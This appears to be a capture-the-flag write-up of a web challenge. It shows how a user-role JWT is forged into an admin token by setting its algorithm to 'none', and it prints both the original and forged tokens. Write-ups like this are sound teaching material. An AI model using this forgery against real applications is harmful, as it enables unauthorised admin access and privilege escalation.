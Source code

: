 
We are greeted with this web-page

![[Pasted image 20240814220923.png]]


Then we log in with the credentials given to us: 

```
test : Test123!
```


We get this:

![[Pasted image 20240814221116.png]]


We notice that there is a JWT token added onto our session:

![[Pasted image 20240814221140.png]]

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzIzNjUzNjA4OTI1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6MTI5LjApIEdlY2tvLzIwMTAwMTAxIEZpcmVmb3gvMTI5LjAiLCJyb2xlIjoidXNlciIsImlhdCI6MTcyMzY1MzYwOX0.W3ZpF2VhdVttCPpJWFQ5UyoK8jBGWIiZCBVVWqMHI68
```


We visit this website:

```
https://www.gavinjl.me/edit-jwt-online-alg-none/
```



We set algorithm to none:

![[Pasted image 20240814221309.png]]


And we change the role to 'admin':

![[Pasted image 20240814221332.png]]



We get this final new token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzIzNjUzNjA4OTI1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6MTI5LjApIEdlY2tvLzIwMTAwMTAxIEZpcmVmb3gvMTI5LjAiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MjM2NTM2MDl9.
```


We set this value as of our token


We get this page:

![[Pasted image 20240814221627.png]]


Hence we get  our flag.